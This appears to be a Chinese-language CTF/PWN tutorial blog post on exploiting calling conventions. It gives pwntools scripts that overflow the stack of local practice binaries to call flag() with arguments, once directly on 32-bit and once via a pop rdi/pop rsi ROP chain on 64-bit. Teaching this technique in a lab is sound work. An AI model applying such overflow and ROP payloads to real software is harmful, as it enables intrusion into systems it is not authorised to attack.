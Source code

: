 ```yaml
---
title: 攻击调用约定
subtitle: 利用调用约定
date: 2023-08-11T15:31:21+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: false
math: false
lightgallery: true
password:
message:
repost:
  enable: false
  url:
---
```


利用调用约定。

<!--more-->

{{< link href="/pwn_assets/exploiting_with_params.zip" content="exploiting_with_params.zip" title="Download exploiting_with_params.zip" download="exploiting_with_params.zip" card=true >}}

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3RoV.png"/>
</div>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3hJU.png"/>
</div>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里
——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

payload = b'A' * 52         # Padding 到 EIP
payload += p32(0x080491c7)  # flag() 的地址
payload += p32(0x0)         # 避免异常
payload += p32(0xdeadc0de)  # 第一个参数
payload += p32(0xc0ded00d)  # 第二个参数

p.sendline(payload)

p.interactive()
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为
`rdi` 和 `rsi` ，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

payload = b'A' * 56          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(0xdeadc0de)   # 进入 rdi 的值 - 第一个参数
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0xc0ded00d)   # 进入 rsi 的值 - 第二个参数
payload += p64(0x0)          # 进入 r15 的值 - 避免异常
payload += p64(0x40116f)     # flag() 的地址
payload += p64(0x0)          # 避免异常

p.sendline(payload)

p.interactive()
```

{{<admonition type="info">}}

在返回地址后面加 0 本质是为了让程序有个返回的地方，防止异常，不然会返回到下面
奇奇怪怪的东西；有时候也可能是栈对齐，64-bit 程序执行 `system` 时会有一个检查，
确保栈指针是指着 0 的（结尾是 0），没有对齐的话就不能执行。

通常 0 可以替换为任意值，效果是一样的。只是习惯加 0。

{{</admonition>}}

